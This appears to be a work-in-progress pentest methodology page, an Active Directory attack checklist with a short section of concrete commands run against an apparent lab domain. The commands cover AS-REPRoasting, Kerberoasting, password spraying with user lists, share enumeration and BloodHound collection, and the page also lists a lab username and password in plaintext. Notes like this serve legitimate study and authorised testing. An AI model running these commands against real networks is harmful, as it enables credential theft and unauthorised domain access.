 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# WIP

## No Creds

<details>

<summary>HTTP(S)</summary>

* [ ] [Dirbust](../web/dirbusting.md) HTTP(S) ports with
  * [ ] [Directory list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt) plus server-specific extensions
  * [ ] [File list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-files.txt) plus server-specific extensions
* [ ] File Uploads
* [ ] WebDAV

</details>

<details>

<summary><a href="../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] Null session
* [ ] Guest session
* [ ] Anonymous session

</details>

<details>

<summary>AD Attacks</summary>

* [ ] Check for valid users ([kerbrute](https://x7331.gitbook.io/boxes/tl-dr/active-directory/ad-tools/kerbrute))
  * [ ] BFA with `user:user`
* [ ] [AS-REPRoast](../tl-dr/active-directory/attacks/as-reproasting.md)
  * [ ] Crack hashes
* [ ] LDAP Null Bind (ldapsearch)

</details>

## With Creds&#x20;

### Remote Access

<details>

<summary>User Context</summary>

* [ ] [SMB Enumeration](../services/shares/smb-139-445.md#usage)
* [ ] Check for Local Access (WinRM, RDP, SSH)
* [ ] MSSQL
  * [ ] Links
  * [ ] Users
  * [ ] xp\_cmdshell

</details>

<details>

<summary>AD Attacks</summary>

* [ ] Create a domain user list ([nxc](../tl-dr/active-directory/ad-tools/netexec.md#smb))
  * [ ] Password spray with `user:user`
* [ ] [Kerberoast](../tl-dr/active-directory/attacks/kerberoasting.md)
  * [ ] Crack hashes
* [ ] Collect [domain data](../tl-dr/active-directory/ad-tools/bloodhound.md#ingestors) (RustHound-CE, bloodhound-python)
  * [ ] Analyze data and note potential targets and attack vectors

</details>

### Local Access

<details>

<summary>User Context</summary>

* [ ] Check [groups](../tl-dr/infra/os/windows/privilege-escalation/groups/)
* [ ] Check [privileges](../tl-dr/infra/os/windows/privilege-escalation/privileges/)
  * [ ] [Token elevation](../tl-dr/infra/os/windows/privilege-escalation/privileges/token-elevation.md)
* [ ] PEASS
* [ ] Shell History

</details>

<details>

<summary>AD Attacks</summary>

* [ ] Collect [domain data](../tl-dr/active-directory/ad-tools/bloodhound.md#ingestors) (SharpHound)
  * [ ] Analyze data and note potential targets and attack vectors

</details>



## Domain User

1. Create a userlist and AS-REPRoast, Kerberoast, PassSpray

{% code overflow="wrap" %}
```bash
# Domain users
nxc smb hokka -u info -p info --users | awk '$1 == "SMB" && $5 != "[+]" && $5 != "-Username-" && $5 != "[*]" && $5 != "Guest" && $5 != "krbtgt" {print $5}' > domain_users

# AS-REPRoast
$ impacket-GetNPUsers hokkaido-aerospace.com/ -dc-ip 192.168.155.40 -no-pass -usersfile domain_users

# Kerberoast
impacket-GetUserSPNs -request -dc-ip hokka hokkaido-aerospace.com/info:info

# Password Spray
nxc smb hokka -u domain_users -p domain_users --continue-on-success | grep +
```
{% endcode %}

2. Enumerate SMB shares

```bash
nxc smb hokka -u info -p info --shares
```

3. Check for remote access

```bash
nxc winrm hokka -u info -p info
nxc rdp hokka -u info -p info
```

4. Collect domain data

{% code overflow="wrap" %}
```bash
$ nxc ldap dc.hokkaido-aerospace.com -u discovery -p Start123! --bloodhound -c All --dns-server 192.168.155.40
```
{% endcode %}
